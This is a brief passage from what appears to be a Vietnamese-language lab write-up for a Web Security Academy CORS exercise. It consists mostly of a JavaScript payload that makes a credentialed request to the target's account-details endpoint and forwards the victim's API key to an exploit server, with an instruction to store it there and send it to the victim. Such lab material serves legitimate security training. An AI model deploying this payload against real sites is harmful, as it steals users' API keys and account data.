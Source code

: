![Untitled](writeup_media/Untitled%202.png)

```html
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.responseType = "json";
    req.open('get', 'https://0a1a002d033dca87c06974bd005a00fb.web-security-academy.net/accountDetails', true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location = 'https://exploit-0a9b00dc0312ca3ec0f674e60116008b.web-security-academy.net/exploit?APIkey' + req.response.apikey;
    };
</script>
```

Copy paste và store vào Exploit server rồi gửi cho victim 

![Untitled](writeup_media/Untitled%203.png)
